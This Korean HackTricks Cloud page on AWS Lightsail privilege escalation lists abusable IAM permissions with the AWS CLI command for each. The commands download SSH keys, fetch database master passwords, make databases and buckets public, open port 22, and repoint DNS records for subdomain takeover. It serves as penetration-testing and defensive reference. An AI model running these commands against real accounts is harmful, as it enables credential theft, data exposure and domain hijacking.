 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Lightsail에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Lightsail은 **사용자에게 속한 IAM 역할을 사용하지 않고** AWS 관리 계정에 속하므로, 이 서비스를 악용하여 권한 상승을 할 수 없습니다. 그러나 **코드, API 키 및 데이터베이스 정보**와 같은 **민감한 데이터**는 이 서비스에서 발견될 수 있습니다.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 가져올 수 있게 해줍니다:
```
aws lightsail download-default-key-pair
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:GetInstanceAccessDetails`

이 권한은 인스턴스에 접근하기 위한 SSH 키를 생성할 수 있게 해줍니다:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**잠재적 영향:** 인스턴스 내에서 민감한 정보를 찾습니다.

### `lightsail:CreateBucketAccessKey`

이 권한은 버킷에 접근할 수 있는 키를 얻을 수 있게 해줍니다:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**잠재적 영향:** 버킷 내에서 민감한 정보를 찾습니다.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

이 권한은 데이터베이스에 접근하기 위한 자격 증명을 얻을 수 있게 해줍니다:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `lightsail:UpdateRelationalDatabase`

이 권한은 데이터베이스에 접근하기 위한 비밀번호를 변경할 수 있게 해줍니다:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

데이터베이스가 공개되지 않은 경우, 다음 권한으로 공개할 수 있습니다.

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**잠재적 영향:** 데이터베이스 내에서 민감한 정보를 찾습니다.

### `lightsail:OpenInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있도록 허용합니다.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:PutInstancePublicPorts`

이 권한은 인터넷에 포트를 열 수 있게 해줍니다. 이 호출은 지정되지 않은 모든 열린 포트를 닫습니다.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**잠재적 영향:** 민감한 포트에 접근.

### `lightsail:SetResourceAccessForBucket`

이 권한은 인스턴스가 추가 자격 증명 없이 버킷에 접근할 수 있도록 허용합니다.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateBucket`

이 권한을 통해 공격자는 자신의 AWS 계정에 버킷에 대한 읽기 접근을 부여하거나 심지어 버킷을 모든 사람에게 공개할 수 있습니다:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**잠재적 영향:** 민감한 정보가 포함된 버킷에 대한 새로운 접근 가능성.

### `lightsail:UpdateContainerService`

이 권한을 통해 공격자는 컨테이너 서비스에서 개인 ECR에 대한 접근을 부여할 수 있습니다.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**잠재적 영향:** 개인 ECR에서 민감한 정보 얻기

### `lightsail:CreateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

### `lightsail:UpdateDomainEntry`

이 권한을 가진 공격자는 서브도메인을 생성하고 자신의 IP 주소로 포인팅할 수 있으며(서브도메인 탈취), 도메인에서 이메일을 스푸핑할 수 있도록 SPF 레코드를 작성하거나, 심지어 메인 도메인을 자신의 IP 주소로 설정할 수 있습니다.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**잠재적 영향:** 도메인 탈취

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
